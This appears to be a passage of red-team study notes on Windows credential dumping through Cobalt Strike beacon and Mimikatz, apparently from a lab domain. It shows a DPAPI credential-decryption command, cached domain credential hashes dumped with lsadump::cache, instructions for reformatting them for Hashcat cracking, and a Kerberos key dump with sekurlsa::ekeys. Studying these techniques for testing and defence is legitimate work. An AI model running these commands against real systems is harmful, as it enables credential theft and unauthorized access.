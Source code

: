 5. decrypt file from 2 with key from 4.
``````powershell
dpapi::cred /in:C:\Users\patri\AppData\Local\Microsoft\Credentials\040F76937B2E54B70658AF91D1BEBCCF /masterkey:877b54004621de000414e1e85af59928027d55f6be31beafd8007ad21779e3eb75ec95b58ebcedf433[SNIP]21f9ba45877b1426c72cb
``````

## [[Domain Cached Credentials]]
Unfortunately, the hash format is not NTLM.

To crack these with [[Hashcat]], we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<MsCacheV2hash>`.

``````
beacon> mimikatz lsadump::cache

Domain : SRV1
SysKey : 5d11b46a92921b8775ca574306ba5355

Local name : SRV1 ( S-1-5-21-4124990477-354564332-720757739 )
Domain name : EDU ( S-1-5-21-3263068140-2042698922-2891547269 )
Domain FQDN : edu.evil.corp

Policy subsystem is : 1.14
LSA Key(s) : 1, default {2f242789-b6b3-dc42-0903-3e03acab0bc2}
  [00] {2f242789-b6b3-dc42-0903-3e03acab0bc2} c09ac7dd10900648ef451c40c317f8311a40184b60ca28ae78c9036315bf8983

* Iteration is set to default (10240)

[NL$1 - 2/25/2022 1:07:37 PM]
RID       : 00000460 (1120)
User      : EDU\john
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 5/17/2022 2:00:46 PM]
RID       : 0000046e (1134)
User      : EDU\svc_mssql
MsCacheV2 : 3f903860f7b6861a702eb9d6509d9da6

[NL$3 - 5/17/2022 2:00:50 PM]
RID       : 00000462 (1122)
User      : EDU\doe
MsCacheV2 : 673e2fe26e26e79c58379168b79890f6
``````

## [[eKeys]]
This Mimikatz module will dump [[Kerberos]] encryption keys.
``````beacon
beacon> mimikatz sekurlsa::ekeys

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : doe
Domain            : EDU
Logon Server      : DC-2
Logon Time        : 5/24/2022 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122

 * Username : doe
 * Domain   : edu.evil.corp
 * Password : (null)
 * Key List :
``````